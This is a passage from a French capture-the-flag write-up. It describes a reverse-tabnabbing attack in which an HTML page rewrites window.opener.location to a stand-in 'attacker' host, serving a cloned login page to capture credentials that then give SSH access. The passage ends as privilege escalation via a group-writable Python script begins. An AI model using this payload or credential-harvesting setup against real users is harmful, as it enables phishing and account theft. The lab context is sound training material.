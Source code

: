 Via l'utilisation de Javascript la page malicieuse peut changer l'URL de l'onglet d'origine sans que la victime ne s'en aperçoive. Si c'est fait de manière subtile (la nouvelle page est visuellement proche de la page d'origine) ou si l'onglet n'est pas réutilisé avant un moment alors la victime peut penser que le contenu est légitime et ne pensera même pas à vérifier la barre d'adresse.  

On trouve différentes vidéos de démonstration sur YouTube [dont celle-ci](https://www.youtube.com/watch?v=VyaXnBjV-IE).

Du coup j'édite le code HTML suivant et je passe son URL dans le formulaire :  

```html

<html>
    <body>
        <script>window.opener.location="http://attacker/redirected";</script>
```

Après un moment j'obtiens bien une requête sur */redirected* ce qui valide ce scénario.  

Je télécharge la page de login du CTF, modifie l'entrée *action* du formulaire et je la sers en local. Je modifie aussi l'URL qui écrase *window.opener.location*.  

Je lance ensuite Wireshark et soumet l'URL. Au bout de quelques minutes j'ai une requête POST avec ces données:  

```plain
username=daniel&password=C%40ughtm3napping123
```

soit les identifiants suivants : *daniel / C@ughtm3napping123*  

Ceux-ci ne permettent pas de se connecter à l'appli web mais ils fournissent un shell sur le port SSH !  

Escalading
----------

Ce compte fait partie du groupe *administrators* :  

```plain
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel),1002(administrators)
```

Aussitôt je regarde les fichiers appartenant à ce groupe :  

```bash
find / -group administrators  2> /dev/null
```

Parmi les résultats il y a un fichier appartenant à l'utilisateur *adrian* :  

```plain
/home/adrian/query.py
```

et les membres du groupe ont accès en écriture :  

```plain
-rw-rw-r-- 1 adrian administrators  481 Oct 30 19:15 query.py
```

Il s'agit d'un script qui logue l'état du site dans un fichier *site\_status.txt*. Le code est le suivant :  
